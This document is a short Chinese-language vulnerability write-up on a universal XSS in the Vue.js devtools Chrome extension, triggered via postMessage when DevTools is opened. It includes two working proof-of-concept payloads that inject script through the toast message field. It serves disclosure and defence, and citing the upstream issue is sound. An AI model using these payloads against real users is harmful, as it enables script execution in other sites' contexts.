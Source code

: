 # Chrome 插件 Vue.js devtools UXSS


在中devtools-background.js，toast函数中存在代码注入。它可以由任何选项卡中的postMessage触发，从而在打开浏览器的开发人员工具（F12）时产生通用XSS。攻击者可以托管一个特制网页来利用此漏洞，然后诱使用户查看该网页并在其他Chrome标签中打开开发人员工具（F12）。

条件有点苛薄...需要安装特定版本插件，然后访问指定PoC网页   最后打开开发者工具(F12)进行触发..

受影响版本：

* Vue.js devtools 5.3.3
* Vue.js devtools 6.0.0 beta3

详细分析见：https://github.com/vuejs/vue-devtools/issues/1353

chrome插件：https://chrome.google.com/webstore/detail/vuejs-devtools/nhdogjmejiglipccpnnnanhbledajbpd

**PoC1:**

```js
<script>
    setInterval(() => {
        window.postMessage({
            vueDetected: true,
            vueToast: {
                message: '`,`normal`); function __VUE_DEVTOOLS_TOAST__(){}; alert(document.domain);//'
            }
        }, '*')
    }, 1000)
</script>
```

POC2:

```js
<script>
    const urls = ['https://www.google.com/', 'https://github.com', 'https://vuejs.org/']
    var i = 0;
    setInterval(() => {
        window.postMessage({
            vueDetected: true,
            vueToast: {
                message: '`,`normal`); function __VUE_DEVTOOLS_TOAST__(){}; alert(document.domain); location=`' + urls[i++%3] +'`//'
            }
        }, '*')
    }, 3000)
</script>
```

![](images/16120234683238.jpg)


ref：

https://github.com/vuejs/vue-devtools/issues/1353

https://forum.ywhack.com/thread-115069-1-1.html